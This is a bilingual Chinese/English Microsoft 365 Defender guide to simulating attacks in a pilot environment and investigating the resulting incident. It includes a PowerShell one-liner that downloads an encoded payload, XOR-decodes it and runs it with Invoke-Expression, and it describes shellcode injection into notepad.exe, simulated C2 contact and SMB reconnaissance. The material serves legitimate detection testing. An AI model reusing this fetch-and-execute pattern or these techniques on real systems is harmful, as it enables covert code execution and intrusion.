

# <a name="run-an-attack-simulation-in-a-microsoft-365-defender-pilot-environment"></a><span data-ttu-id="5cde8-103">在试点环境中Microsoft 365 Defender攻击模拟</span><span class="sxs-lookup"><span data-stu-id="5cde8-103">Run an attack simulation in a Microsoft 365 Defender pilot environment</span></span>


<span data-ttu-id="5cde8-104">本文是使用试验环境对 Microsoft 365 Defender 事件进行调查和响应的过程中的第 1 步（第[2](eval-defender-investigate-respond.md)步）。</span><span class="sxs-lookup"><span data-stu-id="5cde8-104">This article is [Step 1 of 2](eval-defender-investigate-respond.md) in the process of performing an investigation and response of an incident in Microsoft 365 Defender using a pilot environment.</span></span> <span data-ttu-id="5cde8-105">有关此过程详细信息，请参阅 [概述](eval-defender-investigate-respond.md) 文章。</span><span class="sxs-lookup"><span data-stu-id="5cde8-105">For more information about this process, see the [overview](eval-defender-investigate-respond.md) article.</span></span>

<span data-ttu-id="5cde8-106">准备试点环境后[](eval-defender-investigate-respond.md)，可以测试 Microsoft 365 Defender 的事件响应以及自动调查和修正功能，方法为创建具有模拟攻击的事件，以及使用 Microsoft 365 Defender 门户进行调查和响应。</span><span class="sxs-lookup"><span data-stu-id="5cde8-106">After preparing your [pilot environment](eval-defender-investigate-respond.md), it's time to test Microsoft 365 Defender's incident response and automated investigation and remediation capabilities by creating an incident with a simulated attack and using the Microsoft 365 Defender portal to investigate and respond.</span></span>

<span data-ttu-id="5cde8-107">事件Microsoft 365 Defender是关联警报和关联数据的集合，这些警报和关联数据是攻击事件的一部分。</span><span class="sxs-lookup"><span data-stu-id="5cde8-107">An incident in Microsoft 365 Defender is a collection of correlated alerts and associated data that make up the story of an attack.</span></span>

<span data-ttu-id="5cde8-108">Microsoft 365服务和应用在检测到可疑或恶意事件或活动时创建警报。</span><span class="sxs-lookup"><span data-stu-id="5cde8-108">Microsoft 365 services and apps create alerts when they detect a suspicious or malicious event or activity.</span></span> <span data-ttu-id="5cde8-109">个别警报提供有关已完成或持续攻击的有价值的线索。</span><span class="sxs-lookup"><span data-stu-id="5cde8-109">Individual alerts provide valuable clues about a completed or ongoing attack.</span></span> <span data-ttu-id="5cde8-110">但是，攻击通常对不同类型的实体（如设备、用户和邮箱）使用各种技术。</span><span class="sxs-lookup"><span data-stu-id="5cde8-110">However, attacks typically employ various techniques against different types of entities, such as devices, users, and mailboxes.</span></span> <span data-ttu-id="5cde8-111">结果是租户中多个实体收到多个警报。</span><span class="sxs-lookup"><span data-stu-id="5cde8-111">The result is multiple alerts for multiple entities in your tenant.</span></span>

>[!Note]
><span data-ttu-id="5cde8-112">如果你是安全分析和事件响应的新用户，请参阅响应你的第一个[](first-incident-overview.md)事件演练，获取分析、修正和事后评审的典型流程的引导教程。</span><span class="sxs-lookup"><span data-stu-id="5cde8-112">If you are brand new to security analysis and incident response, see the [Respond to your first incident walkthrough](first-incident-overview.md) to get a guided tour of a typical process of analysis, remediation, and post-incident review.</span></span>
>

## <a name="simulate-attacks-with-the-microsoft-365-defender-portal"></a><span data-ttu-id="5cde8-113">使用门户模拟Microsoft 365 Defender攻击</span><span class="sxs-lookup"><span data-stu-id="5cde8-113">Simulate attacks with the Microsoft 365 Defender portal</span></span>

<span data-ttu-id="5cde8-114">Microsoft 365 Defender门户具有内置功能，可创建对试点环境的模拟攻击：</span><span class="sxs-lookup"><span data-stu-id="5cde8-114">The Microsoft 365 Defender portal has built-in capabilities to create simulated attacks on your pilot environment:</span></span>

- <span data-ttu-id="5cde8-115">攻击模拟培训，Microsoft 365 Defender Office 365。 [https://security.microsoft.com/attacksimulator](https://security.microsoft.com/attacksimulator)</span><span class="sxs-lookup"><span data-stu-id="5cde8-115">Attack simulation training for Microsoft 365 Defender for Office 365 at [https://security.microsoft.com/attacksimulator](https://security.microsoft.com/attacksimulator).</span></span>
  
  <span data-ttu-id="5cde8-116">在"Microsoft 365 Defender门户中，选择"电子邮件 **&协作>攻击模拟培训"。**</span><span class="sxs-lookup"><span data-stu-id="5cde8-116">In the Microsoft 365 Defender portal, select **Email & collaboration > Attack simulation training**.</span></span>

- <span data-ttu-id="5cde8-117">攻击教程& 终结点Microsoft 365 Defender的模拟 [https://security.microsoft.com/tutorials/simulations](https://security.microsoft.com/tutorials/simulations) 。</span><span class="sxs-lookup"><span data-stu-id="5cde8-117">Attack tutorials & simulations for Microsoft 365 Defender for Endpoints at [https://security.microsoft.com/tutorials/simulations](https://security.microsoft.com/tutorials/simulations).</span></span>

  <span data-ttu-id="5cde8-118">在Microsoft 365 Defender门户中，选择"终结点 **>教程&模拟"。**</span><span class="sxs-lookup"><span data-stu-id="5cde8-118">In the Microsoft 365 Defender portal, select **Endpoints > Tutorials & simulations**.</span></span>

### <a name="defender-for-office-365-attack-simulation-training"></a><span data-ttu-id="5cde8-119">防御者Office 365攻击模拟培训</span><span class="sxs-lookup"><span data-stu-id="5cde8-119">Defender for Office 365 Attack simulation training</span></span>

<span data-ttu-id="5cde8-120">Defender for Office 365 with Microsoft 365 E5 or Microsoft Defender for Office 365 Plan 2 包含网络钓鱼攻击的攻击模拟培训。</span><span class="sxs-lookup"><span data-stu-id="5cde8-120">Defender for Office 365 with Microsoft 365 E5 or Microsoft Defender for Office 365 Plan 2 includes attack simulation training for phishing attacks.</span></span> <span data-ttu-id="5cde8-121">基本步骤包括：</span><span class="sxs-lookup"><span data-stu-id="5cde8-121">The basic steps are:</span></span>

1. <span data-ttu-id="5cde8-122">创建模拟</span><span class="sxs-lookup"><span data-stu-id="5cde8-122">Create a simulation</span></span>

   <span data-ttu-id="5cde8-123">有关如何创建和发送新模拟的分步说明，请参阅 [模拟网络钓鱼攻击](/microsoft-365/security/office-365-security/attack-simulation-training)。</span><span class="sxs-lookup"><span data-stu-id="5cde8-123">For step by step instructions on how to create and send a new simulation, see [Simulate a phishing attack](/microsoft-365/security/office-365-security/attack-simulation-training).</span></span>

2. <span data-ttu-id="5cde8-124">创建有效负载</span><span class="sxs-lookup"><span data-stu-id="5cde8-124">Create a payload</span></span>

   <span data-ttu-id="5cde8-125">有关如何创建负载以用于模拟的分步说明，请参阅为 [攻击模拟培训创建自定义负载](/microsoft-365/security/office-365-security/attack-simulation-training-payloads)。</span><span class="sxs-lookup"><span data-stu-id="5cde8-125">For step by step instructions on how to create a payload for use within a simulation, see [Create a custom payload for Attack simulation training](/microsoft-365/security/office-365-security/attack-simulation-training-payloads).</span></span>

3. <span data-ttu-id="5cde8-126">获取见解</span><span class="sxs-lookup"><span data-stu-id="5cde8-126">Gaining insights</span></span>

   <span data-ttu-id="5cde8-127">有关如何通过报告获取见解的分步说明，请参阅通过 [攻击模拟培训获取见解](/microsoft-365/security/office-365-security/attack-simulation-training-insights)。</span><span class="sxs-lookup"><span data-stu-id="5cde8-127">For step by step instructions on how to gain insights with reporting, see [Gain insights through Attack simulation training](/microsoft-365/security/office-365-security/attack-simulation-training-insights).</span></span>

<span data-ttu-id="5cde8-128">有关详细信息，请参阅 [模拟](/microsoft-365/security/office-365-security/attack-simulation-training-get-started#simulations)。</span><span class="sxs-lookup"><span data-stu-id="5cde8-128">For more information, see [Simulations](/microsoft-365/security/office-365-security/attack-simulation-training-get-started#simulations).</span></span>

### <a name="defender-for-endpoint-attack-tutorials--simulations"></a><span data-ttu-id="5cde8-129">适用于终结点的 Defender 攻击教程&模拟</span><span class="sxs-lookup"><span data-stu-id="5cde8-129">Defender for Endpoint attack tutorials & simulations</span></span>

<span data-ttu-id="5cde8-130">下面是 Microsoft 的 Defender for Endpoint 模拟：</span><span class="sxs-lookup"><span data-stu-id="5cde8-130">Here are the Defender for Endpoint simulations from Microsoft:</span></span>

- <span data-ttu-id="5cde8-131">文档删除后门</span><span class="sxs-lookup"><span data-stu-id="5cde8-131">Document drops backdoor</span></span>
- <span data-ttu-id="5cde8-132">自动调查 (后门) </span><span class="sxs-lookup"><span data-stu-id="5cde8-132">Automated investigation (backdoor)</span></span>

<span data-ttu-id="5cde8-133">攻击 IQ 和 SafeBreach 提供了其他模拟。</span><span class="sxs-lookup"><span data-stu-id="5cde8-133">There are additional simulations from Attack IQ and SafeBreach.</span></span> <span data-ttu-id="5cde8-134">还有一组教程。</span><span class="sxs-lookup"><span data-stu-id="5cde8-134">There are also a set of tutorials.</span></span>

<span data-ttu-id="5cde8-135">对于每个模拟或教程：</span><span class="sxs-lookup"><span data-stu-id="5cde8-135">For each simulation or tutorial:</span></span>

1. <span data-ttu-id="5cde8-136">下载并阅读所选模拟或方案提供的相应演练文档。</span><span class="sxs-lookup"><span data-stu-id="5cde8-136">Download and read the corresponding walk through document provided with your selected simulation or scenario.</span></span>

2. <span data-ttu-id="5cde8-137">下载模拟文件。</span><span class="sxs-lookup"><span data-stu-id="5cde8-137">Download the simulation file.</span></span> <span data-ttu-id="5cde8-138">你可以选择在测试设备上下载文件或脚本，但这不是强制性的。</span><span class="sxs-lookup"><span data-stu-id="5cde8-138">You can choose to download the file or script on the test device but it's not mandatory.</span></span>

3. <span data-ttu-id="5cde8-139">根据演练文档中的指示，在测试设备上运行模拟文件或脚本。</span><span class="sxs-lookup"><span data-stu-id="5cde8-139">Run the simulation file or script on the test device as instructed in the walk through document.</span></span>

 <span data-ttu-id="5cde8-140">有关详细信息，请参阅体验 [Microsoft Defender for Endpoint 通过模拟攻击](/microsoft-365/security/defender-endpoint/attack-simulations)。</span><span class="sxs-lookup"><span data-stu-id="5cde8-140">For more information, see [Experience Microsoft Defender for Endpoint through simulated attack](/microsoft-365/security/defender-endpoint/attack-simulations).</span></span>

## <a name="simulate-an-attack-with-an-isolated-domain-controller-and-client-device-optional"></a><span data-ttu-id="5cde8-141">使用独立的域控制器和客户端设备（可选）模拟 (攻击) </span><span class="sxs-lookup"><span data-stu-id="5cde8-141">Simulate an attack with an isolated domain controller and client device (optional)</span></span>

<span data-ttu-id="5cde8-142">在此可选事件响应练习中，你将使用 PowerShell 脚本模拟对独立的 Active Directory 域服务 (AD DS) 域控制器和 Windows 10 设备的攻击，然后调查、修正和解决事件。</span><span class="sxs-lookup"><span data-stu-id="5cde8-142">In this optional incident response exercise, you'll simulate an attack on an isolated Active Directory Domain Services (AD DS) domain controller and Windows 10 device using a PowerShell script and then investigate, remediate, and resolve the incident.</span></span>

<span data-ttu-id="5cde8-143">首先，需要将终结点添加到试点环境。</span><span class="sxs-lookup"><span data-stu-id="5cde8-143">First, you need to add endpoints to your pilot environment.</span></span>

### <a name="add-pilot-environment-endpoints"></a><span data-ttu-id="5cde8-144">添加试点环境终结点</span><span class="sxs-lookup"><span data-stu-id="5cde8-144">Add pilot environment endpoints</span></span>

<span data-ttu-id="5cde8-145">首先，你需要将隔离的 AD DS 域控制器和Windows 10设备添加到试点环境中。</span><span class="sxs-lookup"><span data-stu-id="5cde8-145">First, you need to add an isolated AD DS domain controller and a Windows 10 device to your pilot environment.</span></span>

1. <span data-ttu-id="5cde8-146">验证试点环境租户是否[已启用Microsoft 365 Defender。](m365d-enable.md#confirm-that-the-service-is-on)</span><span class="sxs-lookup"><span data-stu-id="5cde8-146">Verify your pilot environment tenant has [enabled Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on).</span></span>

2. <span data-ttu-id="5cde8-147">验证您的域控制器：</span><span class="sxs-lookup"><span data-stu-id="5cde8-147">Verify that your domain controller:</span></span>

   - <span data-ttu-id="5cde8-148">运行Windows Server 2008 R2 或更高版本。</span><span class="sxs-lookup"><span data-stu-id="5cde8-148">Runs Windows Server 2008 R2 or a later version.</span></span>
   - <span data-ttu-id="5cde8-149">报告给 [Microsoft Defender for Identity](/azure/security-center/security-center-wdatp) 并已启用 [远程管理](/windows-server/administration/server-manager/configure-remote-management-in-server-manager)。</span><span class="sxs-lookup"><span data-stu-id="5cde8-149">Reports to [Microsoft Defender for Identity](/azure/security-center/security-center-wdatp) and has enabled [remote management](/windows-server/administration/server-manager/configure-remote-management-in-server-manager).</span></span>
   - <span data-ttu-id="5cde8-150">已启用[Microsoft Defender 的标识Microsoft Cloud App Security集成](/cloud-app-security/mdi-integration)。</span><span class="sxs-lookup"><span data-stu-id="5cde8-150">Has [Microsoft Defender for Identity and Microsoft Cloud App Security integration](/cloud-app-security/mdi-integration) enabled.</span></span>
   - <span data-ttu-id="5cde8-151">在测试域中创建了测试用户。</span><span class="sxs-lookup"><span data-stu-id="5cde8-151">Has a test user is created in the test domain.</span></span> <span data-ttu-id="5cde8-152">不需要管理员级别的权限。</span><span class="sxs-lookup"><span data-stu-id="5cde8-152">Administrator-level permissions are not needed.</span></span>

3. <span data-ttu-id="5cde8-153">验证测试设备：</span><span class="sxs-lookup"><span data-stu-id="5cde8-153">Verify that your test device:</span></span>

   - <span data-ttu-id="5cde8-154">运行Windows 10版本 1903 或更高版本。</span><span class="sxs-lookup"><span data-stu-id="5cde8-154">Runs Windows 10 version 1903 or a later version.</span></span>
   - <span data-ttu-id="5cde8-155">已加入 AD DS 域控制器域。</span><span class="sxs-lookup"><span data-stu-id="5cde8-155">Is joined to the AD DS domain controller domain.</span></span>
   - <span data-ttu-id="5cde8-156">已启用[Windows Defender 防病毒。](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features)</span><span class="sxs-lookup"><span data-stu-id="5cde8-156">Has [Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features) enabled.</span></span> <span data-ttu-id="5cde8-157">如果无法启用Windows Defender 防病毒，请参阅此[疑难解答主题](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)。</span><span class="sxs-lookup"><span data-stu-id="5cde8-157">If you are having trouble enabling Windows Defender Antivirus, see this [troubleshooting topic](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>
   - <span data-ttu-id="5cde8-158">已 [载入到 Microsoft Defender for Endpoint](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)。</span><span class="sxs-lookup"><span data-stu-id="5cde8-158">Is [onboarded to Microsoft Defender for Endpoint](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="5cde8-159">如果使用租户和设备组，请为测试设备创建专用设备组，并推送到顶层。</span><span class="sxs-lookup"><span data-stu-id="5cde8-159">If you use tenant and device groups, create a dedicated device group for the test device and push it to top level.</span></span>

<span data-ttu-id="5cde8-160">一种替代方法是在基础结构服务中托管 AD DS 域控制器，并测试Microsoft Azure虚拟机。</span><span class="sxs-lookup"><span data-stu-id="5cde8-160">One alternative is to host your AD DS domain controller and test device as virtual machines in Microsoft Azure infrastructure services.</span></span> <span data-ttu-id="5cde8-161">可以使用模拟企业测试实验室指南阶段 [1](/microsoft-365/enterprise/simulated-ent-base-configuration-microsoft-365-enterprise#phase-1-create-a-simulated-intranet)中的说明，但跳过 APP1 虚拟机的创建。</span><span class="sxs-lookup"><span data-stu-id="5cde8-161">You can use the instructions in [Phase 1 of the simulated enterprise Test Lab Guide](/microsoft-365/enterprise/simulated-ent-base-configuration-microsoft-365-enterprise#phase-1-create-a-simulated-intranet), but skip the creation of the APP1 virtual machine.</span></span>

<span data-ttu-id="5cde8-162">下面是结果。</span><span class="sxs-lookup"><span data-stu-id="5cde8-162">Here is the result.</span></span>


<span data-ttu-id="5cde8-164">你将模拟复杂的攻击，该攻击利用高级技术来隐藏检测。</span><span class="sxs-lookup"><span data-stu-id="5cde8-164">You'll simulate a sophisticated attack that leverages advanced techniques to hide from detection.</span></span> <span data-ttu-id="5cde8-165">该攻击枚举域控制器上打开 (SMB) 会话，并检索用户设备的最新 IP 地址。</span><span class="sxs-lookup"><span data-stu-id="5cde8-165">The attack enumerates opened Server Message Block (SMB) sessions on domain controllers and retrieves recent IP addresses of users' devices.</span></span> <span data-ttu-id="5cde8-166">此类攻击通常不包括在受攻击人设备上丢弃的文件，它们仅出现在内存中。</span><span class="sxs-lookup"><span data-stu-id="5cde8-166">This category of attacks usually doesn't include files dropped on the victim's device and they occur solely in memory.</span></span> <span data-ttu-id="5cde8-167">他们通过使用现有系统和管理工具"离开陆地"，将其代码注入系统进程以隐藏其执行。</span><span class="sxs-lookup"><span data-stu-id="5cde8-167">They "live off the land" by using existing system and administrative tools and inject their code into system processes to hide their execution.</span></span> <span data-ttu-id="5cde8-168">此类行为允许他们规避检测并保留于设备上。</span><span class="sxs-lookup"><span data-stu-id="5cde8-168">Such behavior allows them to evade detection and persist on the device.</span></span>

<span data-ttu-id="5cde8-169">在此模拟中，我们的示例方案从 PowerShell 脚本开始。</span><span class="sxs-lookup"><span data-stu-id="5cde8-169">In this simulation, our sample scenario starts with a PowerShell script.</span></span> <span data-ttu-id="5cde8-170">在现实世界中，可能会欺骗用户运行脚本，或者脚本可能从远程连接从先前受感染的设备运行到另一台计算机，这表明攻击者试图在网络中进行后向移动。</span><span class="sxs-lookup"><span data-stu-id="5cde8-170">In the real world, a user might be tricked into running a script or the script might run from a remote connection to another computer from a previously infected device, which indicates that the attacker is attempting to move laterally in the network.</span></span> <span data-ttu-id="5cde8-171">检测这些脚本可能很困难，因为管理员通常还远程运行脚本以执行各种管理活动。</span><span class="sxs-lookup"><span data-stu-id="5cde8-171">Detection of these scripts can be difficult because administrators also often run scripts remotely to carry out various administrative activities.</span></span>


<span data-ttu-id="5cde8-173">在模拟过程中，该攻击将 shellcode 注入一个看起来不一样的过程。</span><span class="sxs-lookup"><span data-stu-id="5cde8-173">During the simulation, the attack injects shellcode into a seemingly innocent process.</span></span> <span data-ttu-id="5cde8-174">此方案需要使用notepad.exe。</span><span class="sxs-lookup"><span data-stu-id="5cde8-174">The scenario requires the use of notepad.exe.</span></span> <span data-ttu-id="5cde8-175">我们选择了此过程进行模拟，但攻击者更有可能针对长时间运行的系统进程，例如svchost.exe。</span><span class="sxs-lookup"><span data-stu-id="5cde8-175">We chose this process for the simulation, but attackers would more likely target a long-running system process, such as svchost.exe.</span></span> <span data-ttu-id="5cde8-176">然后，shellcode 继续联系攻击者的命令和控制 (C2) 服务器，以接收有关如何继续的说明。</span><span class="sxs-lookup"><span data-stu-id="5cde8-176">The shellcode then goes on to contact the attacker's command-and-control (C2) server to receive instructions on how to proceed.</span></span> <span data-ttu-id="5cde8-177">该脚本尝试对 DC 服务器中的域控制器 (重新) 。</span><span class="sxs-lookup"><span data-stu-id="5cde8-177">The script attempts executing reconnaissance queries against the domain controller (DC).</span></span> <span data-ttu-id="5cde8-178">重新集成允许攻击者获取有关最近用户登录信息的信息。</span><span class="sxs-lookup"><span data-stu-id="5cde8-178">Reconnaissance allows an attacker to get information about recent user login information.</span></span> <span data-ttu-id="5cde8-179">一旦攻击者获得此信息，他们就可以在网络中进行稍后移动，以到达特定的敏感帐户</span><span class="sxs-lookup"><span data-stu-id="5cde8-179">Once attackers have this information, they can move laterally in the network to get to a specific sensitive account</span></span>

> [!IMPORTANT]
> <span data-ttu-id="5cde8-180">为了获得最佳结果，请尽可能遵循攻击模拟说明。</span><span class="sxs-lookup"><span data-stu-id="5cde8-180">For optimum results, follow the attack simulation instructions as closely as possible.</span></span>

### <a name="run-the-isolated-ad-ds-domain-controller-attack-simulation"></a><span data-ttu-id="5cde8-181">运行隔离的 AD DS 域控制器攻击模拟</span><span class="sxs-lookup"><span data-stu-id="5cde8-181">Run the isolated AD DS domain controller attack simulation</span></span>

<span data-ttu-id="5cde8-182">运行攻击方案模拟：</span><span class="sxs-lookup"><span data-stu-id="5cde8-182">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="5cde8-183">确保试点环境包括隔离的 AD DS 域控制器和Windows 10设备。</span><span class="sxs-lookup"><span data-stu-id="5cde8-183">Ensure that your pilot environment includes the isolated AD DS domain controller and Windows 10 device.</span></span>

2. <span data-ttu-id="5cde8-184">使用测试用户帐户登录到测试设备。</span><span class="sxs-lookup"><span data-stu-id="5cde8-184">Sign in to the test device with the test user account.</span></span>

3. <span data-ttu-id="5cde8-185">在测试Windows PowerShell打开一个"打开"窗口。</span><span class="sxs-lookup"><span data-stu-id="5cde8-185">Open a Windows PowerShell window on the test device.</span></span>

4. <span data-ttu-id="5cde8-186">复制以下模拟脚本：</span><span class="sxs-lookup"><span data-stu-id="5cde8-186">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > <span data-ttu-id="5cde8-187">如果在 Web 浏览器中打开本文，在复制全文而不丢失某些字符或引入额外的换行符时可能会遇到问题。</span><span class="sxs-lookup"><span data-stu-id="5cde8-187">If you open this article on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="5cde8-188">如果是这种情况，请下载此文档，在 Adobe Reader 上打开它。</span><span class="sxs-lookup"><span data-stu-id="5cde8-188">If this is the case, download this document and open it on Adobe Reader.</span></span>

5. <span data-ttu-id="5cde8-189">在 PowerShell 窗口中粘贴并运行复制的脚本。</span><span class="sxs-lookup"><span data-stu-id="5cde8-189">Paste and run the copied script in the PowerShell window.</span></span>

> [!NOTE]
> <span data-ttu-id="5cde8-190">如果使用远程桌面协议 (RDP) 运行 PowerShell，请使用 RDP 客户端中的"键入剪贴板文本"命令，因为 **CTRL-V** 热键或右键单击粘贴方法可能不起作用。</span><span class="sxs-lookup"><span data-stu-id="5cde8-190">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span> <span data-ttu-id="5cde8-191">PowerShell 的最新版本有时也不接受该方法，您可能首先必须复制到内存中的 记事本，将其复制到虚拟机中，然后将其粘贴到 PowerShell 中。</span><span class="sxs-lookup"><span data-stu-id="5cde8-191">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>

<span data-ttu-id="5cde8-192">几秒钟后，应用记事本打开。</span><span class="sxs-lookup"><span data-stu-id="5cde8-192">A few seconds later, the Notepad app will open.</span></span> <span data-ttu-id="5cde8-193">模拟攻击代码将注入到记事本。</span><span class="sxs-lookup"><span data-stu-id="5cde8-193">A simulated attack code will be injected into Notepad.</span></span> <span data-ttu-id="5cde8-194">将自动生成的记事本实例保持打开状态，以体验完整方案。</span><span class="sxs-lookup"><span data-stu-id="5cde8-194">Keep the automatically generated Notepad instance open to experience the full scenario.</span></span>

<span data-ttu-id="5cde8-195">模拟攻击代码将尝试与外部 IP 地址通信 (模拟 C2 服务器) 然后尝试通过 SMB 重新对域控制器进行重新连接。</span><span class="sxs-lookup"><span data-stu-id="5cde8-195">The simulated attack code will attempt to communicate to an external IP address (simulating the C2 server) and then attempt reconnaissance against the domain controller through SMB.</span></span>

<span data-ttu-id="5cde8-196">此脚本完成后，你将在 PowerShell 控制台上看到此消息：</span><span class="sxs-lookup"><span data-stu-id="5cde8-196">You'll see this message displayed on the PowerShell console when this script completes:</span></span>

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

<span data-ttu-id="5cde8-197">To see the Automated Incident and Response feature in action， keep the notepad.exe process open.</span><span class="sxs-lookup"><span data-stu-id="5cde8-197">To see the Automated Incident and Response feature in action, keep the notepad.exe process open.</span></span> <span data-ttu-id="5cde8-198">你将看到自动事件和响应停止记事本进程。</span><span class="sxs-lookup"><span data-stu-id="5cde8-198">You'll see Automated Incident and Response stop the Notepad process.</span></span>

### <a name="investigate-the-incident-for-the-simulated-attack"></a><span data-ttu-id="5cde8-199">调查模拟攻击的事件</span><span class="sxs-lookup"><span data-stu-id="5cde8-199">Investigate the incident for the simulated attack</span></span>

> [!NOTE]
> <span data-ttu-id="5cde8-200">在我们演示此模拟之前，请观看以下视频，了解事件管理如何有助于将相关警报作为调查过程的一部分一起处理，在哪里可以找到门户中的警报，以及如何帮助你执行安全操作：</span><span class="sxs-lookup"><span data-stu-id="5cde8-200">Before we walk you through this simulation, watch the following video to see how incident management helps you piece the related alerts together as part of the investigation process, where you can find it in the portal, and how it can help you in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

<span data-ttu-id="5cde8-201">切换到 SOC 分析员的角度，现在可以开始在企业门户中调查Microsoft 365 Defender攻击。</span><span class="sxs-lookup"><span data-stu-id="5cde8-201">Switching to the SOC analyst point of view, you can now start to investigate the attack in the Microsoft 365 Defender portal.</span></span>

1. <span data-ttu-id="5cde8-202">打开Microsoft 365 Defender[门户](https://security.microsoft.com/)。</span><span class="sxs-lookup"><span data-stu-id="5cde8-202">Open the [Microsoft 365 Defender portal](https://security.microsoft.com/).</span></span>

2. <span data-ttu-id="5cde8-203">从导航窗格中，选择"事件 **&事件>事件"。**</span><span class="sxs-lookup"><span data-stu-id="5cde8-203">From the navigation pane, select **Incidents & Alerts > Incidents**.</span></span>

3. <span data-ttu-id="5cde8-204">模拟攻击的新事件将显示在事件队列中。</span><span class="sxs-lookup"><span data-stu-id="5cde8-204">The new incident for the simulated attack will appear in the incident queue.</span></span>

    

#### <a name="investigate-the-attack-as-a-single-incident"></a><span data-ttu-id="5cde8-206">将攻击作为单个事件进行调查</span><span class="sxs-lookup"><span data-stu-id="5cde8-206">Investigate the attack as a single incident</span></span>

<span data-ttu-id="5cde8-207">Microsoft 365 Defender分析关联，并将不同产品的相关警报和调查聚合到一个事件实体中。</span><span class="sxs-lookup"><span data-stu-id="5cde8-207">Microsoft 365 Defender correlates analytics and aggregates all related alerts and investigations from different products into one incident entity.</span></span> <span data-ttu-id="5cde8-208">通过执行此操作，Microsoft 365 Defender更广泛的攻击案例，让 SOC 分析师可以了解和响应复杂的威胁。</span><span class="sxs-lookup"><span data-stu-id="5cde8-208">By doing so, Microsoft 365 Defender shows a broader attack story, allowing the SOC analyst to understand and respond to complex threats.</span></span>

<span data-ttu-id="5cde8-209">此模拟期间生成的警报与同一威胁相关联，因此，自动聚合为单个事件。</span><span class="sxs-lookup"><span data-stu-id="5cde8-209">The alerts generated during this simulation are associated with the same threat, and as a result, are automatically aggregated as a single incident.</span></span>

<span data-ttu-id="5cde8-210">查看事件：</span><span class="sxs-lookup"><span data-stu-id="5cde8-210">To view the incident:</span></span>

1. <span data-ttu-id="5cde8-211">打开Microsoft 365 Defender[门户](https://security.microsoft.com/)。</span><span class="sxs-lookup"><span data-stu-id="5cde8-211">Open the [Microsoft 365 Defender portal](https://security.microsoft.com/).</span></span>

2. <span data-ttu-id="5cde8-212">从导航窗格中，选择"事件 **&事件>事件"。**</span><span class="sxs-lookup"><span data-stu-id="5cde8-212">From the navigation pane, select **Incidents & Alerts > Incidents**.</span></span>

3. <span data-ttu-id="5cde8-213">单击事件名称左侧的圆圈，选择最新项。</span><span class="sxs-lookup"><span data-stu-id="5cde8-213">Select the newest item by clicking on the circle located left of the incident name.</span></span> <span data-ttu-id="5cde8-214">侧面板显示有关事件的其他信息，包括所有相关警报。</span><span class="sxs-lookup"><span data-stu-id="5cde8-214">A side panel displays additional information about the incident, including all the related alerts.</span></span> <span data-ttu-id="5cde8-215">每个事件都有一个唯一的名称，该名称根据事件包括的警报的属性进行描述。</span><span class="sxs-lookup"><span data-stu-id="5cde8-215">Each incident has a unique name that describes it based on the attributes of the alerts it includes.</span></span>

   <span data-ttu-id="5cde8-216">可以基于以下服务资源筛选仪表板中显示的警报：Microsoft Defender for Identity、Microsoft Cloud App Security、Microsoft Defender for Endpoint、Microsoft 365 Defender 和 Microsoft Defender for Office 365。</span><span class="sxs-lookup"><span data-stu-id="5cde8-216">The alerts that are shown in the dashboard can be filtered based on service resources: Microsoft Defender for Identity, Microsoft Cloud App Security, Microsoft Defender for Endpoint, Microsoft 365 Defender, and Microsoft Defender for Office 365.</span></span>

3. <span data-ttu-id="5cde8-217">选择 **"打开事件** 页面"获取有关事件详细信息。</span><span class="sxs-lookup"><span data-stu-id="5cde8-217">Select **Open incident page** to get more information about the incident.</span></span>

   <span data-ttu-id="5cde8-218">在 **"事件** "页中，你可以看到与事件相关的所有警报和信息。</span><span class="sxs-lookup"><span data-stu-id="5cde8-218">In the **Incident** page, you can see all the alerts and information related to the incident.</span></span> <span data-ttu-id="5cde8-219">这些信息包括警报中涉及的实体和资产、警报 (如 Microsoft Defender for Identity 或 Microsoft Defender for Endpoint) 的检测源，以及链接在一起的原因。</span><span class="sxs-lookup"><span data-stu-id="5cde8-219">The information includes the entities and assets that are involved in the alert, the detection source of the alerts (such as Microsoft Defender for Identity or Microsoft Defender for Endpoint), and the reason they were linked together.</span></span> <span data-ttu-id="5cde8-220">查看事件警报列表将显示攻击进度。</span><span class="sxs-lookup"><span data-stu-id="5cde8-220">Reviewing the incident alert list shows the progression of the attack.</span></span> <span data-ttu-id="5cde8-221">从此视图中，你可以查看和调查各个警报。</span><span class="sxs-lookup"><span data-stu-id="5cde8-221">From this view, you can see and investigate the individual alerts.</span></span>

